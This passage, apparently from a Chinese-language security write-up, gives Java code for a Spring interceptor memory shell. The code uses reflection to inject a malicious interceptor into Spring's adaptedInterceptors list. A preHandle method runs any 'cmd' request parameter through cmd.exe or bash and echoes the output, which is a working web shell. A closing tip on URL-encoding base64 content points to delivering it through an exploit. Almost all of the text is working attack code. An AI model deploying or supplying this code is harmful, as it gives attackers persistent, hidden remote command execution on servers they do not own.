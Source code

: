 ```java
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
        } catch (NoSuchFieldException var6) {
            throw new RuntimeException(var6);
        }

        ArrayList<Object> adptedIntercepter = null;

        try {
            adptedIntercepter = (ArrayList)field.get(abstractHandlerMapping);
        } catch (IllegalAccessException var5) {
            throw new RuntimeException(var5);
        }

        InceptorMemshell shellInterceptor = new InceptorMemshell();
        adptedIntercepter.add(shellInterceptor);
    }
}

```
如果要回显的话，prehandle那里改成
```java
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setCharacterEncoding("gbk");
                java.io.PrintWriter printWriter = response.getWriter();
                ProcessBuilder builder;
                String o = "";
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    builder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    builder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                java.util.Scanner c = new java.util.Scanner(builder.start().getInputStream(),"gbk").useDelimiter("wocaosinidema");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.println(o);
                printWriter.flush();
                printWriter.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

```
记得b64内容url编码就行。
